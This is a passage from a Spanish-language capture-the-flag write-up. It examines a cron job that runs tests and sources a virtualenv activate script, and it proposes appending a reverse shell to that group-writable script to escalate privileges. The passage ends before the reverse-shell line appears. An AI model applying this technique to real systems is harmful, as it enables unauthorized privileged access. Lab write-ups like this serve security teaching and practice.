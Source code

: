 ~~~bash
-rwxrwxr-x 1 root root          226 Mar 10 17:21 pytest
lrwxrwxrwx 1 root root            7 Mar 10 17:21 python -> python3
lrwxrwxrwx 1 root root           16 Mar 10 17:21 python3 -> /usr/bin/python3
lrwxrwxrwx 1 root root            7 Mar 10 17:21 python3.10 -> python3
-rwxrwxr-x 1 root root      1349984 Jan 23 21:45 uwsgi
ls: cannot open directory '/home/dev_admin': Permission denied

~~~

Para comprender mayormente el sistema revisamos el script test_and_update.sh

~~~bash
#!/bin/bash

# update prod with latest from testing constantly assuming tests are passing

echo "Starting test_and_update"
date

# if already running, exit
ps auxww | grep -v "grep" | grep -q "pytest" && exit

echo "Not already running. Starting..."

# start in dev folder
cd /app/app-testing

# system-wide source doesn't seem to happen in cron jobs
source /app/venv/bin/activate

# run tests, exit if failure
pytest -x 2>&1 >/dev/null || exit

# tests good, update prod (flask debug mode will load it instantly)
cp -r superpass /app/app/
echo "Complete!"

~~~

Básicamente lo que hace es validar la aplicación con un conjunto de pruebas, si estas prueabas son aprobadas, la aplicación es copiada en la carpeta /app y pasa a producción. Vemos que el script usa el archivo  /app/venv/bin/activate. Además, el usuario dev_admin tiene permisos de grupo para escribir sobre el.

Intentaremos que el script source /app/venv/bin/activate quede de la siguiente forma (añadimos una shell reversa al final del script)

~~~bash
# This file must be used with "source bin/activate" *from bash*
# you cannot run it directly

deactivate () {
    # reset old environment variables
    if [ -n "${_OLD_VIRTUAL_PATH:-}" ] ; then
        PATH="${_OLD_VIRTUAL_PATH:-}"
        export PATH
        unset _OLD_VIRTUAL_PATH
    fi
    if [ -n "${_OLD_VIRTUAL_PYTHONHOME:-}" ] ; then
        PYTHONHOME="${_OLD_VIRTUAL_PYTHONHOME:-}"
        export PYTHONHOME
        unset _OLD_VIRTUAL_PYTHONHOME
    fi

    # This should detect bash and zsh, which have a hash command that must
    # be called to get it to forget past commands.  Without forgetting
~~~